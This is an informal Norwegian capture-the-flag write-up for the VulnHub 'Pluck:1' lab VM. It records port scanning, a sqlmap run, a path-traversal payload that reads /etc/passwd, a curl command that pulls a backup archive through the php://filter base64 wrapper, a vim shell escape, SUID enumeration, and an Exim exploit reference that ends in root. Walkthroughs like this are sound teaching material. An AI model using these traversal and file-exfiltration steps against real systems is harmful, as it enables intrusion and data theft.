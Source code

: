 ### pluck:1 - written by chris

[https://www.vulnhub.com/entry/pluck-1,178/](https://www.vulnhub.com/entry/pluck-1,178/)

* `22/tcp   open  ssh     OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)`

* `80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))`

* `3306/tcp open  mysql   MySQL (unauthorized)`

* `5355/tcp open  llmnr?`

* apache versjon og kernel er ikke sårbare

* fant nettside med /admin.php. kanskje inn der?

* ser at mysql kjører
* kjører ikke wordpress ser det ut som
* ingen robots.txt
* fant en rubber ducky i /images

* `sqlmap -uhttp://10.0.0.10/admin.php--forms –-batch –-crawl=10–-level=5 –-risk=3 –-dbs` tester sql stuff. greide ikke injecte noe

* fant ingen morsomme dirs med dirbuster

* tipper at det er sql injection som må til
* prøvde med `' = 1` og fikk `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 6.`
* kanskje passord eller email er på linje 6?

`http://10.0.0.10/index.php?page=../../../../../../../../etc/passwd`** tester php-triks og hurra fant filen.**

`root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:109::/var/run/dbus:/bin/false mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false lxd:x:108:65534::/var/lib/lxd/:/bin/false uuidd:x:109:114::/run/uuidd:/bin/false dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:112:1::/var/cache/pollinate:/bin/false bob:x:1000:1000:bob,,,:/home/bob:/bin/bash Debian-exim:x:113:119::/var/spool/exim4:/bin/false peter:x:1001:1001:,,,:/home/peter:/bin/bash paul:x:1002:1002:,,,:/home/paul:/usr/bin/pdmenu backup-user:x:1003:1003:Just to make backups easier,,,:/backups:/usr/local/scripts/backup.sh`

ser at det ligger et backup-script for å gjøre backuper enklere?

navigerer til det

`#!/bin/bash ######################## # Server Backup script # ######################## #Backup directories in /backups so we can get it via tftp echo "Backing up data" tar -cf /backups/backup.tar /home /var/www/html > /dev/null 2& > /dev/null echo "Backup complete"`

backuper alle web dirs og tarer? la oss laste ned den og se om vi finner noe gøy da?

fant private keys. prøvde ssh med alle men ingen hell. **\(gjorde feil her. hadde gamle filer liggende. dette ville funket\)**

prøve å laste ned backupfilen ordentlig

`curl http://10.0.0.10/index.php?page=php://filter/convert.base64-encode/resource=/backups/backup.tar | grep 'jumbotron > ' | cut -d ' > ' -f 2 | cut -d ' < ' -f 1 > backup.tar64`

```
base64 -d backup.tar64 > backup.tar
```

```
mkdir backup ; tar -xvf backup.tar -C backup
```

må encode til base64

gå til edit file, åpne vim og spawne shell med `:set shell=/bin/bash` og så `:shell`

fant ingen kernel exploits

`find / -perm -u=s -type f 2>/dev/null` ga en exim-fil.

fant en exploit tilhørende exim 4.83 [https://www.exploit-db.com/exploits/39535/](https://www.exploit-db.com/exploits/39535/)

**whoami root**

